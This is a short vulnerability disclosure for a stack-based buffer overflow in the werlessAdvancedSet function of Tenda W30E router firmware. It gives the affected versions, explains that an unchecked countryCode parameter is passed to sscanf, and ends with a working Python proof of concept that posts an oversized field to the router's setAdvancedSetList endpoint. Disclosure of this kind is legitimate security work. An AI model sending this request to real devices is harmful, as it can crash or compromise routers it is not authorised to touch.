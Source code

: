 # Tenda W30E werlessAdvancedSet
### Overview
vendor: Tenda

product: W30E

version: <= V16.01.0.19(5037)

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/648432375324741
### Vulnerability Description
Tenda W30E V16.01.0.19(5037) were discovered to contain a stack overflow in the werlessAdvancedSet function.
### Vulnerability details
Stack-based buffer overflow in function werlessAdvancedSet on Tenda W30E before V16.01.0.19(5037) devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function werlessAdvancedSet line 50, it reads in a user-provided parameter, and the variable countryCode is passed to the _isoc99_sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/werlessAdvancedSet-1.png)
![](images/werlessAdvancedSet-2.png)
![](images/werlessAdvancedSet-3.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setAdvancedSetList'
payload = {
    "countryCode": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
